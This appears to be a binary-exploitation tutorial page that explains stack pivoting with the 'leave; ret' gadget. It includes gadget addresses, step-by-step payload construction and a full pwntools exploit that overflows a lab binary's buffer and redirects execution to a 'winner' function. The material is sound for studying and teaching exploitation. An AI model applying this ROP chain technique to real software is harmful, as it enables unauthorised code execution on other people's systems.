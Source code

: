```yaml
---
description: Using leave; ret to stack pivot
---
```


# leave

## Exploitation

By calling `leave; ret` twice, as described, this happens:

```text
mov rsp, rbp
pop rbp
mov rsp, rbp
pop rbp
```

By controlling the value popped into RBP, we can control RSP.

### Gadgets

As before, but with a difference:

```text
$ ROPgadget --binary vuln | grep 'leave'
0x000000000040117c : leave ; ret
```

```python
LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229
```

### Testing the leave

I won't bother stepping through it again - if you want that, check out the [pop rsp walkthrough](pop-rsp.md).

```python
payload = flat(
    'A' * 96,
    buffer,
    LEAVE_RET
)

pause()
p.sendline(payload)
print(p.recvline())
```

Essentially, that pops `buffer` into RSP \(as described previously\).

### Full Payload

You might be tempted to just chuck the payload into the buffer and boom, RSP points there, but you can't quite - as with the previous approach, there is a `pop` instruction that needs to be accounted for - again, remember `leave` is

```text
mov rsp, rbp
pop rbp
```

So once you overwrite RSP, you still need to give a value for the `pop rbp`.

```python
payload = flat(
    0x0,               # account for final "pop rbp"
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,               # r15
    elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
    buffer,
    LEAVE_RET
)
```

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
    0x0,               # rbp
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,
    elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
    buffer,
    LEAVE_RET
)

pause()
p.sendline(payload)
print(p.recvline())
```

